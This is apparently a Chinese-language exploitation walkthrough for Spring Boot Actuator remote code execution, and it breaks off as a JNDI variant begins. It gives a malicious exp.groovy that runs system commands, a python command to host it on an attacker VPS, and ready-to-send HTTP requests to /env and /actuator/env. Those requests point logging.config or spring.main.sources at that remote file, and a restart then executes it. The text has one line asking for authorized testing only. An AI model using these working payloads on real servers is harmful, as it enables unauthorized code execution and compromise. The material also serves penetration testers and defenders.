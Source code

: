 第一种：简述：根据springboot相关文档说明：可通过Spring 环境属性logging.config进一步设置配置文件的位置。利用条件：存在/actuator/restart接口，存在groovy依赖漏洞利用：关键代码在org.springframework.boot.context.logging.LoggingApplicationListener#initialize()方法中，logback- classic 组件的 ch.qos.logback.classic.util.ContextInitializer.java 代码文件逻辑中会判断 url 是否以 groovy 结尾漏洞复现：  
  
1、远程加载.groovy文件，这里写入一个exp.groovy  
```
//VPS写入一个命令执行函数
Runtime.getRuntime().exec("open -a Calculator")
Runtime.getRuntime().exec("calc")

python -m http.server 1234
```  
  
2、设置logging.config属性，poc如下  
```
//spring 1.x
POST /env
Content-Type: application/x-www-form-urlencoded

logging.config=http://vps:port/exp.groovy

//spring 2.x
POST /actuator/env
Content-Type: application/json

{"name":"logging.config","value":"http://vps:port/exp.groovy"}
```  
  
3、 最后访问/restart或 /actuator/restart重新应用即可加载命令执行。  
  
注意此操作会重启业务运行，请授权测试  
  
另一种姿势：restart spring.main.sources groovy 命令执行，同理也是需要groovy依赖，poc如下  
```
//spring 1.x
POST /env
Content-Type: application/x-www-form-urlencoded

spring.main.sources=http://vps:port/exp.groovy

//spring 2.x
POST /actuator/env
Content-Type: application/json

{"name":"spring.main.sources","value":"http://vps:port/exp.groovy"}
```  
  
然后重启等待加载即可，最终是正常访问/actuator/env接口的  
# SpringBoot Actuator之restart logback JNDI 命令执行  
  
利用条件：JNDI 服务返回的 object 需要实现javax.naming.spi.ObjectFactory 接口，存在/env和/restart接口spring actuator 1.x 开启 restart 需要配置: endpoints.restart.enabled=true spring actuatorspring actuator 2.x 开启 restart 需要配置: management.endpoint.restart.enabled=true  
  
